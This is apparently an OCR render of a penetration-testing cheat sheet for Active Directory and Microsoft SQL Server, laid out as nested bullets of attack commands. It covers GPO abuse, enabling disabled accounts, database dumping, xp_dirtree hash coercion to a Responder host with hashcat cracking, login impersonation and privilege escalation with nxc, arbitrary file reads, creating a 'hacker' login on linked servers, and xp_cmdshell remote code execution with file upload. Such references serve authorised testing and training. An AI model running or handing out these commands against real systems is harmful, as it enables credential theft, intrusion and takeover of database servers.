                 *   `pygpoabuse [AUTH_STRING] -gpo-id "[GPO_ID]"`
                *   From Local Session → `gpupdate /force`
            *   Enable Account
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] remove uac [USER] -f ACCOUNTDISABLE`
*   MSSQL
    *   `mssqclient.py [AUTH_STRING] [-windows-auth]`
    *   User Permissions
        *   `SELECT * FROM fn_my_permissions(NULL, 'SERVER');`
        *   `SELECT IS_SRVROLEMEMBER ('sysadmin');`
        *   Check Admin / Read / Write / Directives
    *   DB Dumping
        *   `enum_db` → `use [DB_NAME]`
        *   `SELECT TABLE_NAME FROM [DB].INFORMATION_SCHEMA.TABLES;`
        *   `SELECT * FROM [TABLE];`
    *   LLMNR
        *   `EXEC master..xp_dirtree '\\[RESPONDER_IP]\x'`
        *   Cracking        → `hashcat -m 5600`
        *   Service Hash → Impersonate Administrator + RCE
    *   User Impersonation
        *   `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
        *   `EXECUTE AS LOGIN = '[PRIVILEGED_USER]'`
        *   NXC
            *   `nxc mssql [IP] [AUTH_STRING] -M mssql_priv`
            *   `nxc mssql [IP] [AUTH_STRING] -M mssql_priv -o ACTION=privesc`
            *   `nxc mssql [IP] [AUTH_STRING] -q ‘[MSSQL_QUERY]’`
    *   OS Read
        *   Download               → `nxc mssql [IP] [AUTH_STRING] --get-file C:\\[SRC] [OUT]`
        *   Directory Listing   → `EXEC master..xp_dirtree [OS_DIR]`
        *   File Read                 → `SELECT * FROM OPENROWSET(BULK N'[PATH\\TO\\FILE]', SINGLE_CLOB) AS Contents`
    *   Linked Instances
        *   `SELECT * FROM master..sysservers;` → Check Instances with `IsRemote = 0`
        *   `EXECUTE('[MSSQL_QUERY]') AT [[INSTANCE]]`
        *   Queries
            *   `EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = password'') AT [[INSTANCE]]`
            *   `EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [[INSTANCE]]`
    *   RCE / File Upload (Admin)
        *   `enable_xp_cmdshell` → `xp_cmdshell [CMD]` 
        *   `nxc mssql [IP] [AUTH_STRING] --put-file [SRC] C:\\Windows\\Temp\\[OUT]`
        *   `nxc mssql [IP] [AUTH_STRING] [-x/-X] [CMD/PS_COMMAND]`